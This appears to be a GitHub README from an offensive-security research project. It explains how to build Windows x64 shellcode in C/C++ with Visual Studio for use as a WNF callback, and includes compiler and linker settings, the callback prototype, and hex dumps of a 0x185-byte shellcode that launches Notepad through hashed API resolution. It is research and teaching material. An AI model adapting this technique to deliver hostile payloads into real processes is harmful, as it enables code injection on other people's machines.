




# Building Shellcode for WNF Callback 

For memo purpose, we describe things about WNF Callback shellcode in C/C++ with Visual Studio.
The code in [WnfCallbackPayload](./WnfCallbackPayload/) is for generating shellcode which calls `WinExec("notepad", SW_SHOW)`.

> __NOTE__
>
> WnfCallbackPayload project must be built as Release build.

## Note About Shellcode Programming with C/C++

### Avoiding Access Violation

Shellcode must be self-contained, and all code must be in single section (`.text` section).
We cannot use Windows API or Library function without implementing procedures to resolve by ourselves, and any access to uncertain memory area cause access violation.

#### Stack Cookie
Stack cookie is not located in `.text` section. It is located at section to store data and causes access violation in shellcode execution. We must avoid to use stack cookie in program for shellcoding. The easiest way to avoid stack cookie is to use `/GS-` compiler option. To set `/GS-` compiler option, open protect's `[Properties]` page and set the value of `[Configuration Properties] -> [C/C++] -> [Code Generation] -> [Security Check]` to `Disable Security Check (/GS-)` as following figure:



#### Using String
In many cases, string constants are stored in data section (`.rdata` section). If we want to use string constants in C/C++ built shellcode, we can use integer array. For example, `Hello world` in following code will be stored at `.rdata` section:

```c
#include <stdio.h>

int main()
{
    printf("Hello world.\n");
}
```

To store `Hello world` string in function code, modify this code as follows:

```c
#include <stdio.h>

int main()
{
    unsigned long long message[2];
    message[0] = *(unsigned long long*)"Hello wo";
    message[1] = *(unsigned long long*)"rld.\n\0\0\0";

    printf((char*)message);
}
```

#### Array Variable Initialization
If we declare initial values for array variables, it will generate `memset` call. For example, following declaration will cause `memset(buf, 0, 0x400)` call:

```c
int buf[256] = { 0 };
```

To initialize array variable without `memset` call generation, write as follows:

```c
int buf[256];

for (int i = 0; i < 256; i++)
    buf[i] = 0;
```

### Controling Function Code Order

In situations to define multiple functions in a shellcode, function code alignemnt order is important.
To control function code order, we can define the order in a text file and set it to linker's property.
Simply write the function name on each line of the text file as follows:

```
function_1
function_2
function_3
```

If we coding in C++, function names will be mangled.
Linker will fail to resolve function name without defining correct mangled function name, and function order definition will be ignored.
This issue can be avoided with setting `extern "C"` keyword to functions or changing the source code extension from `.cpp` to `.c`.

To reflect function order setting, open protect's `[Properties]` page and set the value of `[Configuration Properties] -> [Linker] -> [Optimization] -> [Function Order]` to the definiton file path as following figure:




### Removing Library Code

In shellcoding, we use only our own code, so library code will be noise to exfil shellcode from final code.
To remove library code from program, open protect's `[Properties]` page and set the value of `[Configuration Properties] -> [Linker] -> [Input] -> [Ignore All Default Libraries]` to `Yes (/NODEFAULTLIB)` as following figure:



This setting will cause linker error `LNK2001: unresolved external symbol mainCRTStartup`, so we must define entry point.
To set this, open protect's `[Properties]` page and set the value of `[Configuration Properties] -> [Linker] -> [Advanced] -> [Entry Point]` to our main function name as following figure:




## About Shellcode for WNF Callback

According previous research about Windows Notification Facilities, callback function's prototype is as follows:

```
typedef NTSTATUS (NTAPI *PWNF_USER_CALLBACK)(
    _In_ WNF_STATE_NAME StateName,
    _In_ WNF_CHANGE_STAMP ChangeStamp,
    _In_ PWNF_TYPE_ID TypeId,
    _In_opt_ PVOID CallbackContext,
    _In_ PVOID Buffer,
    _In_ ULONG BufferSize
    );
```

This means that shellcode's function signature must follow this prototype manner.


## Get Shellcode from C Program

After finished programming, we need to get shellcode bytes from C/C++ program.
There are several ways to get shellcode from built program, but I wrote small program named [`PeRipper`](https://github.com/daem0nc0re/TangledWinExec/tree/main/Misc#peripper) for this purpose.

Before get shellcode, we should check location and size of shellcode with Disassembler or something.
For example, my sample locate shellcode at start of `.text` section.
To get minimum shellcode, we can check shellcode bytes `PeRipper` as follows (in this example, shellcode is 0x185 bytes):

```
PS C:\Dev> .\PeRipper.exe -p .\WnfCallbackPayload.exe -a

[*] Raw Data Size : 3072 bytes
[*] Architecture  : AMD64
[*] Header Size   : 0x400 bytes
[*] EntryPoint:
    [*] VirtualAddress   : 0x00001000
    [*] PointerToRawData : 0x00000400
[*] Sections (Count = 4):
    [*] .text Section:
        [*] VirtualAddress   : 0x00001000
        [*] PointerToRawData : 0x00000400
        [*] SizeOfRawData    : 0x200
    [*] .rdata Section:
        [*] VirtualAddress   : 0x00002000
        [*] PointerToRawData : 0x00000600
        [*] SizeOfRawData    : 0x200
    [*] .pdata Section:
        [*] VirtualAddress   : 0x00003000
        [*] PointerToRawData : 0x00000800
        [*] SizeOfRawData    : 0x200
    [*] .rsrc Section:
        [*] VirtualAddress   : 0x00004000
        [*] PointerToRawData : 0x00000A00
        [*] SizeOfRawData    : 0x200
[*] Export functions (Count = 0):
[*] Done.

PS C:\Dev> .\PeRipper.exe -p .\WnfCallbackPayload.exe -v 0x1000 -s 0x200 -d

[*] Raw Data Size : 3072 bytes
[*] Architecture  : AMD64
[*] Header Size   : 0x400 bytes
[*] VirtualAddress (0x00001000) is in .text section.
[*] Dump 0x200 bytes in Hex Dump format:

                       00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

    0000000000001000 | 48 89 5C 24 20 56 48 83-EC 30 65 48 8B 04 25 60 | H.\$.VH. ì0eH..%`
    0000000000001010 | 00 00 00 33 DB 8B F3 48-8B 48 18 4C 8B 51 20 49 | ...3U.óH .H.L.Q.I
    0000000000001020 | 83 EA 10 0F 1F 40 00 66-0F 1F 84 00 00 00 00 00 | .ê...@.f ........
    0000000000001030 | 41 0F B7 4A 58 8B C3 49-8B 52 60 66 3B D9 73 23 | A.·JX.AI .R`f;Us#
    0000000000001040 | 44 8B C9 0F BE 0A C1 C8-0D 80 F9 60 7E 03 83 C0 | D.É...AE ..ù`~..A
    0000000000001050 | E0 03 C1 48 FF C2 49 83-E9 01 75 E7 3D 5B BC 4A | à.AHÿAI. é.uç=[.J
    0000000000001060 | 6A 74 10 4D 8B 52 10 49-83 EA 10 49 39 5A 30 75 | jt.M.R.I .ê.I9Z0u
    0000000000001070 | BF EB 04 49 8B 72 30 B8-4D 5A 00 00 66 39 06 0F | ¿ë.I.r0, MZ..f9..
    0000000000001080 | 85 DA 00 00 00 8B 46 3C-81 3C 30 50 45 00 00 0F | .U....F< .<0PE...
    0000000000001090 | 85 CA 00 00 00 0F B7 4C-30 18 BA 0B 02 00 00 66 | .E....·L 0.º....f
    00000000000010A0 | 3B CA 75 09 8B 8C 30 88-00 00 00 EB 12 BA 0B 01 | ;Eu...0. ...ë.º..
    00000000000010B0 | 00 00 66 3B CA 0F 85 A4-00 00 00 8B 4C 30 78 48 | ..f;E.. ....L0xH
    00000000000010C0 | 89 6C 24 40 44 8B D3 48-89 7C 24 48 4C 89 74 24 | .l$@D.OH .|$HL.t$
    00000000000010D0 | 50 8B C1 48 03 C6 8B 68-1C 44 8B 58 20 48 03 EE | P.AH.Æ.h .D.X.H.î
    00000000000010E0 | 44 8B 70 24 4C 03 DE 8B-78 18 4C 03 F6 85 FF 74 | D.p$L._. x.L.ö.ÿt
    00000000000010F0 | 5F 41 8B 13 44 8B C3 48-03 D6 38 1A 74 0B 66 90 | _A..D.AH .Ö8.t.f.
    0000000000001100 | 41 FF C0 41 38 1C 10 75-F7 8B CB 45 85 C0 74 23 | AÿAA8..u ÷.EE.At#
    0000000000001110 | 45 8B C8 0F BE 02 C1 C9-0D 3C 60 7E 03 83 C1 E0 | E.E...AÉ .<`~..Aà
    0000000000001120 | 03 C8 48 FF C2 49 83 E9-01 75 E8 81 F9 68 F6 88 | .EHÿAI.é .uè.ùhö.
    0000000000001130 | 0D 74 0E 41 FF C2 49 83-C3 04 44 3B D7 72 B2 EB | .t.AÿAI. A.D;xr.ë
    0000000000001140 | 0F 41 8B C2 41 0F BF 0C-46 8B 5C 8D 00 48 03 DE | .A.AA.¿. F.\..H._
    0000000000001150 | 4C 8B 74 24 50 48 8B 7C-24 48 48 8B 6C 24 40 48 | L.t$PH.| $HH.l$@H
    0000000000001160 | B8 6E 6F 74 65 70 61 64-00 48 8D 4C 24 20 BA 05 | ,notepad .H.L$.º.
    0000000000001170 | 00 00 00 48 89 44 24 20-FF D3 48 8B 5C 24 58 48 | ...H.D$. ÿOH.\$XH
    0000000000001180 | 83 C4 30 5E C3 00 00 00-00 00 00 00 00 00 00 00 | .Ä0^A... ........
    0000000000001190 | 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 | ........ ........
    00000000000011A0 | 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 | ........ ........
    00000000000011B0 | 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 | ........ ........
    00000000000011C0 | 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 | ........ ........
    00000000000011D0 | 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 | ........ ........
    00000000000011E0 | 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 | ........ ........
    00000000000011F0 | 00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00 | ........ ........

[*] Done.

PS C:\Dev> .\PeRipper.exe -p .\WnfCallbackPayload.exe -v 0x1000 -s 0x185 -d

[*] Raw Data Size : 3072 bytes
[*] Architecture  : AMD64
[*] Header Size   : 0x400 bytes
[*] VirtualAddress (0x00001000) is in .text section.
[*] Dump 0x185 bytes in Hex Dump format:

                       00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

    0000000000001000 | 48 89 5C 24 20 56 48 83-EC 30 65 48 8B 04 25 60 | H.\$.VH. ì0eH..%`
    0000000000001010 | 00 00 00 33 DB 8B F3 48-8B 48 18 4C 8B 51 20 49 | ...3U.óH .H.L.Q.I
    0000000000001020 | 83 EA 10 0F 1F 40 00 66-0F 1F 84 00 00 00 00 00 | .ê...@.f ........
    0000000000001030 | 41 0F B7 4A 58 8B C3 49-8B 52 60 66 3B D9 73 23 | A.·JX.AI .R`f;Us#
    0000000000001040 | 44 8B C9 0F BE 0A C1 C8-0D 80 F9 60 7E 03 83 C0 | D.É...AE ..ù`~..A
    0000000000001050 | E0 03 C1 48 FF C2 49 83-E9 01 75 E7 3D 5B BC 4A | à.AHÿAI. é.uç=[.J
    0000000000001060 | 6A 74 10 4D 8B 52 10 49-83 EA 10 49 39 5A 30 75 | jt.M.R.I .ê.I9Z0u
    0000000000001070 | BF EB 04 49 8B 72 30 B8-4D 5A 00 00 66 39 06 0F | ¿ë.I.r0, MZ..f9..
    0000000000001080 | 85 DA 00 00 00 8B 46 3C-81 3C 30 50 45 00 00 0F | .U....F< .<0PE...
    0000000000001090 | 85 CA 00 00 00 0F B7 4C-30 18 BA 0B 02 00 00 66 | .E....·L 0.º....f
    00000000000010A0 | 3B CA 75 09 8B 8C 30 88-00 00 00 EB 12 BA 0B 01 | ;Eu...0. ...ë.º..
    00000000000010B0 | 00 00 66 3B CA 0F 85 A4-00 00 00 8B 4C 30 78 48 | ..f;E.. ....L0xH
    00000000000010C0 | 89 6C 24 40 44 8B D3 48-89 7C 24 48 4C 89 74 24 | .l$@D.OH .|$HL.t$
    00000000000010D0 | 50 8B C1 48 03 C6 8B 68-1C 44 8B 58 20 48 03 EE | P.AH.Æ.h .D.X.H.î
    00000000000010E0 | 44 8B 70 24 4C 03 DE 8B-78 18 4C 03 F6 85 FF 74 | D.p$L._. x.L.ö.ÿt
    00000000000010F0 | 5F 41 8B 13 44 8B C3 48-03 D6 38 1A 74 0B 66 90 | _A..D.AH .Ö8.t.f.
    0000000000001100 | 41 FF C0 41 38 1C 10 75-F7 8B CB 45 85 C0 74 23 | AÿAA8..u ÷.EE.At#
    0000000000001110 | 45 8B C8 0F BE 02 C1 C9-0D 3C 60 7E 03 83 C1 E0 | E.E...AÉ .<`~..Aà
    0000000000001120 | 03 C8 48 FF C2 49 83 E9-01 75 E8 81 F9 68 F6 88 | .EHÿAI.é .uè.ùhö.
    0000000000001130 | 0D 74 0E 41 FF C2 49 83-C3 04 44 3B D7 72 B2 EB | .t.AÿAI. A.D;xr.ë
    0000000000001140 | 0F 41 8B C2 41 0F BF 0C-46 8B 5C 8D 00 48 03 DE | .A.AA.¿. F.\..H._
    0000000000001150 | 4C 8B 74 24 50 48 8B 7C-24 48 48 8B 6C 24 40 48 | L.t$PH.| $HH.l$@H
    0000000000001160 | B8 6E 6F 74 65 70 61 64-00 48 8D 4C 24 20 BA 05 | ,notepad .H.L$.º.
    0000000000001170 | 00 00 00 48 89 44 24 20-FF D3 48 8B 5C 24 58 48 | ...H.D$. ÿOH.\$XH
    0000000000001180 | 83 C4 30 5E C3                                  | .Ä0^A

[*] Done.

PS C:\Dev>
```

Using these information, we can get shellcode bytes as follows:

```
PS C:\Dev> .\PeRipper.exe -p .\WnfCallbackPayload.exe -v 0x1000 -s 0x185 -e

[*] Raw Data Size : 3072 bytes
[*] Architecture  : AMD64
[*] Header Size   : 0x400 bytes
[*] VirtualAddress (0x00001000) is in .text section.
[*] Export 0x185 bytes raw data to C:\Dev\bytes_from_module.bin.
[*] Done.

PS C:\Dev> dir .\bytes_from_module.bin


    Directory: C:\Dev


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/1/2023   4:11 AM            389 bytes_from_module.bin


PS C:\Dev>
```